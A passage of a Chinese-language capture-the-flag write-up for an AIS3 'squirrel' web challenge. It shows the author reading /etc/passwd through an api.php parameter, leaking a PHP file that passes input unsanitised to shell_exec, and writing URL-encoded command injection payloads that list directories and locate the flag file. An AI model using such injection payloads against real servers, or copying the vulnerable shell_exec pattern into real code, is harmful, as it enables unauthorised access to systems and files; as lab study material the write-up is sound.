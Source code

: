     fetch('api.php?get=' + encodeURIComponent(squirrelFile))
      .then(res => res.json())
      .then(data => {
        if ('error' in data) {
          throw data.error;
        }
        data.output.split('\n')
          .map(line => line.split(':')[0].trim())
          .filter(name => name.length)
          .forEach(name => new Squirrel(name).update());
      })
      .catch(err => {
        console.log(err);
        alert('Something went wrong! Please report this to the author!');
      });
    ```
    我們可以得知有一個路徑是 `api.php?get=`
* 於是我們訪問一下 `https://squirrel.ais3.org/api.php?get=%2Fetc%2Fpasswd` 於是我們得到了 /etc/passwd 的內容
* 於是我便猜他應該是 command injection，應該是用 `shell_exec(cd)` 之類的來訪問
* 所以現在的當務之急是找到 api.php 的 source code 
* 有一次無意之中輸入了 `%00` 然後得到了資訊
    ```
    shell_exec(): NULL byte detected. Possible attack in <b>/var/www/html/api.php
    ```
    學到了一課呢 ...
* 之後訪問並且 decode json 之後得到 `api.php` 的 source code
    ```php=
    <?php

    header('Content-Type: application/json');

    if ($file = @$_GET['get']) {
        $output = shell_exec("cat '$file'");

        if ($output !== null) {
            echo json_encode([
                'output' => $output
            ]);
        } else {
            echo json_encode([
                'error' => 'cannot get file'
            ]);
        }
    } else {
        echo json_encode([
            'error' => 'empty file path'
        ]);
    }
    ```
* 之後我們把注意力集中在 `shell_exec("cat '$file'");`
* 首先我們需要執行 command ls 才能知道有哪些 file，我選擇用語句截斷的方式植入 command `/etc/passwd' && ls && cat '` 之後 url encode 一下 `%2Fetc%2Fpasswd%27%20%26%26%20ls%20%26%26%20cat%20%27` 
* 可以拿到 ls 之後的結果
    ```terminal=
    api.php
    css
    index.html
    js
    ```
* 可見沒有我們想要的，ls 的路徑應該在 `/var/www/html` 裡面，所以我們可以用 `cd ../` 來訪問 `/etc/passwd' && ls ../../../ && cat '` url encode : `%2Fetc%2Fpasswd%27%20%26%26%20ls%20..%2F..%2F..%2F%20%26%26%20cat%20%27` 得到結果
    ```terminal=
    5qu1rr3l_15_4_k1nd_0f_b16_r47.txt
    bin
    boot